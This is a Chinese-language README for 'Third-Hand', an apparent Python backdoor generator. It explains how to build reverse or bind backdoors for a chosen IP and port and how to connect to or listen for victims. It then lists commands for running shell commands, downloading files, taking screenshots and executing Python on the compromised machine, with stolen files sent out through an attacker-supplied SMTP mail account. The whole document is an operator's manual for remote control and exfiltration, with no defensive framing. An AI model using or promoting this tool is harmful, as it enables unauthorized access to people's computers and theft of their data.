 # Third-Hand

## 如何使用Third-Hand  

用Python 3.10或以上版本的解释器运行Third-Hand.py  

运行结果
```
     _____ _     _         _   _   _                 _ 
    |_   _| |__ (_)_ __ __| | | | | | __ _ _ __   __| |
      | | | '_ \| | '__/ _` | | |_| |/ _` | '_ \ / _` |
      | | | | | | | | | (_| | |  _  | (_| | | | | (_| |
      |_| |_| |_|_|_|  \__,_| |_| |_|\__,_|_| |_|\__,_|
                                                    
                                            V 0.1
    
Third-Hand $>
```  

### 使用generate命令生成后门  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向后门
   当选项的值为1时 生成的为正向后门
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向后门  

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向后门连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```
## Third-Hand的GUI版本  

<del>由大佬heiheilq提供 尽情期待  </del><br>
<del>别问为啥删（问就是懒</del>

## Third-Hand的语言支持  

由大佬onion108提供 尽情期待


   
